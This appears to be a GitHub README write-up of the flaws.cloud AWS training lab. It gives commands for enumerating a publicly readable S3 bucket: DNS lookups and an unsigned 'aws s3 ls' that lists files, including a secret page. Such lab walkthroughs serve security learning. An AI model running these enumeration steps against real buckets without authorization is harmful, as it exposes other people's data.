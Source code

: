 # Shape_AI Project

## Misconfigured s3 Bucket exposure

- **Bucket Name**:- s3-website-us-west-2.amazonaws.com
- **Bucket Source**:- http://flaws.cloud

<br>

> **Steps To reproduce:-**

* Go to [flaws.cloud](http://flaws.cloud)
* Enumerate the host IP
```
┌──(root💀kali)-[/home/kali/aws]
└─# host flaws.cloud                                                                      
flaws.cloud has address 52.218.169.210
```
* Enumerate the bucket name
```
┌──(root💀kali)-[/home/kali/aws]
└─# host 52.218.169.210
210.169.218.52.in-addr.arpa domain name pointer s3-website-us-west-2.amazonaws.com.
```
* Check for Authorization Parameter
```
┌──(root💀kali)-[/home/kali/aws]
└─# aws s3 --region us-west-2 ls flaws.cloud --no-sign-request
2017-03-13 23:00:38       2575 hint1.html
2017-03-02 23:05:17       1707 hint2.html
2017-03-02 23:05:11       1101 hint3.html
2020-05-22 14:16:45       3162 index.html
2018-07-10 12:47:16      15979 logo.png
2017-02-26 20:59:28         46 robots.txt
2017-02-26 20:59:30       1051 secret-dd02c7c.html
```
* Read the Secret document.

> **What Can I Do:-**

* List all files.
* Download any file to my local machine.

> **POC:-**

![Commands](https://raw.githubusercontent.com/sudo-Ayush/Vuln_cloud/main/Poc/poc1.PNG)
<br>

![Secret document](https://raw.githubusercontent.com/sudo-Ayush/Vuln_cloud/main/Poc/poc2.PNG)
